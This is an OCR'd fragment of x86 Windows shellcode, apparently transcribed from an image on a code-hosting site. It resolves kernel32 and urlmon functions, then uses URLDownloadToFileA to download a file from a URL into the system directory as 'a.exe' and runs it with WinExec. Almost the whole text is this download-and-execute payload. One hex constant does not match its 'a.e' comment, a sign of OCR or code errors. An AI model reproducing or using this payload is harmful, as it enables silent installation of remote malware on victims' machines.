  mov esi, edi // Hash string start addr -> esi

 // Get function addr of kernel32
 push 4
 pop ecx

 getkernel32:
 call GetProcAddress_fun
 loop getkernel32

 // Get function addr of urlmon
 push 0x00006e6f
 push 0x6d6c7275 // urlmon
 push esp
 call ADDR_LoadLibraryA // LoadLibraryA("urlmon");

 mov ebp, eax // ebp = urlmon.dll base address

/*
 push 1
 pop ecx

 geturlmon:
 call GetProcAddress_fun
 loop geturlmon
*/
 call GetProcAddress_fun

 // url start addr = edi

//LGetSystemDirectoryA:
 sub esp, 0x300
 mov ebx, esp

 push ebx
 push 0x300
 call ADDR_GetSystemDirectoryA // GetSystemDirectoryA

//LURLDownloadToFileA:
 // eax = system path size
 // URLDownloadToFileA url save to a.exe
 mov dword ptr [ebx+eax], 0x7261725C // "a.e"
 mov dword ptr [ebx+eax+0x4], 0x6578652E // "xe"
 xor eax, eax
 push eax
 push eax
 push ebx // %systemdir%a.exe
 push edi // url
 push eax
 call ADDR_URLDownloadToFileA // URLDownloadToFileA

//LWinExec:
 mov ebx, esp
 push eax
 push ebx
 call ADDR_WinExec // WinExec(%systemdir%a.exe);
